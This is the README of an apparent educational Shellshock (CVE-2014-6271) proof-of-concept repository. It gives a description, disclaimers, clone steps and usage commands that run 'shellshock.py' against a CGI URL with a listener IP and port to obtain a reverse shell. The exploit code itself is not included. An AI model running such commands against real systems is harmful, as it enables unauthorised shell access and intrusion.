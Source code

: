 # Shellshock Exploit (CVE-2014-6271)

#### Exploit
## <u>Description</u>
This repository contains an exploit for a vulnerability that affects unix-based systems. Please note that this is merely a proof-of-concept script created for educational purposes and should be used responsibly.

This exploit is designed to demonstrate how the shellshock attack works and how it could be used to gain shell access to a system through a maliciously crafted request header.

### <u>Disclaimer</u>
This repository is intended for educational purposes only. Do not use this code or any information contained within for malicious purposes. Always follow ethical guidelines and respect the law.


Usage:
	python3 shellshock.py [Vulnerable URL] [LHOST] [LPORT]
Example:
	python3 shellshock.py http://vulnerablewebsite.com/cgi-bin/test.cgi 109.876.654.321 1234

Prerequisites:
- A local development environment
- Python installed
- To run this exploit, you can follow these steps:

Clone this repository to your local machine.
```
git clone https://github.com/AlissoftCodes/Shellshock.git
```

Navigate to the project directory.
```
cd Shellshock
```

Run the shellshock.py script.
```
python3 shellshock.py http://vulnerable-website.com/cgi-bin/test.cgi listening_interface_IP listening_port
```

###### Please remember that this exploit should never be used against real software or systems you're not authorized to test. Unauthorized access or any malicious activity is illegal.

#### <u>License</u>
_This exploit is released under the MIT License. You can find more information about this in the LICENSE file._


# Author: Alisson Faoli

#### Github: https://github.com/AlissoftCodes
#### LinkedIn: https://linkedin.com/in/alisson-faoli



<b>If you have any questions or concerns about this exploit, please feel free to contact the author</b>
